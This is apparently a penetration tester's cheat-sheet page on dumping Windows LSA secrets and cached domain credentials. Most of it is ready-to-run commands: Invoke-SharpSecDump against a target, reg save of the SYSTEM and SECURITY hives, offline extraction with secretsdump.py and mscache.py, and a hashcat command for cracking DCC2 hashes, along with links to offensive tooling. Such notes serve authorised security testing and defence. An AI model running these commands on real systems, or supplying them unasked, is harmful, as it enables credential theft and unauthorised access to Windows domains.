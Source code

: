 ```yaml
---
description: Local Security Authority
---
```


# LSA

* [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://sensepost.com/blog/2024/dumping-lsa-secrets-a-story-about-task-decorrelation/](https://sensepost.com/blog/2024/dumping-lsa-secrets-a-story-about-task-decorrelation/)




## SharpSecDump

* [https://github.com/G0ldenGunSec/SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)

Decrypt LSA secrets on target:

```
PS > Invoke-SharpSecDump -C "-target=127.0.0.1"
```




## LsaStorePrivateData (ksetup)

- [https://pentest.party/posts/2025/ksetup-machine-password/](https://pentest.party/posts/2025/ksetup-machine-password/)




## MSCash2/MSCache2 (DCC2)

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

Domain cached credentials are stored within **LSA secrets** in `HKLM:\SECURITY` registry hive:

```
Cmd > reg save hklm\system system.hive
Cmd > reg save hklm\security security.hive
```



### secretsdump.py

Export registry hives and extract cached creds locally with `secretsdump.py`:

```
$ secretsdump.py -system system.hive -security security.hive LOCAL
```



### mscache.py

* [https://github.com/QAX-A-Team/mscache/blob/master/mscache.py](https://github.com/QAX-A-Team/mscache/blob/master/mscache.py)

Export registry hives and extract cached creds locally with `mscache.py`:

```
$ python mscache.py --system system.hive --security security.hive
```



### Crack

```
$ hashcat -m 2100 -O -a 0 -w 3 --session=dcc2 -o dcc2.out dcc2.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```
